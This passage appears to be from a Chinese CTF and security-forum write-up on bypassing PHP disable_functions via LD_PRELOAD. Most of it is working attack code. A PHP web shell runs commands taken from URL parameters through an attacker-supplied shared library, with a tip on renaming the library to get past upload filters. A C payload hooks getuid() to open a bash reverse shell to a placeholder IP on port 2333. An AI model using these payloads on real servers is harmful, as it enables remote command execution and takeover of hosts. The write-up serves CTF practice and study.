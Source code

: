 
以及 php 文件

```php
<?php
    echo "<p> <b>example</b>: http://site.com/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so </p>";

    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";

    putenv("EVIL_CMDLINE=" . $evil_cmdline);

    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);

    mail("", "", "", "");

    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 

    unlink($out_path);
?>
© 2022 GitHub, Inc.
```

从环境变量 EVIL\_CMDLINE 中接收 bypass\_disablefunc.php 传递过来的待执行的命令行。

编译的时候要注意环境的版本，如果是 x86 版本的话要记得加上 -m32

绕过
--

### 后缀名绕过

so文件的后缀名实际上可以为任意后缀，这样可以绕过一些文件上传的限制

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-149ece7302948b771697e4bdbc22347ec83af264.png)

0x03 大赛题目
=========

\[DASCTF三月赛\] upgdstore
-----------------------

可以传phpinfo

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-01c6e21f473d6b2b8c8ee73dcdf6fcc002d60403.png)

我们在getshell之后，就是bypass disable\_function，这里使用LD\_Preload来bypass，getshell的过程就不细说了，之前写过

```php
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
    system("bash -c 'bash -i >& /dev/tcp/xxx.xx.xx.xxx/2333 0>&1'");
}

uid_t getuid() {
    if (getenv("LD_PRELOAD") == NULL) {
        return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();
}
```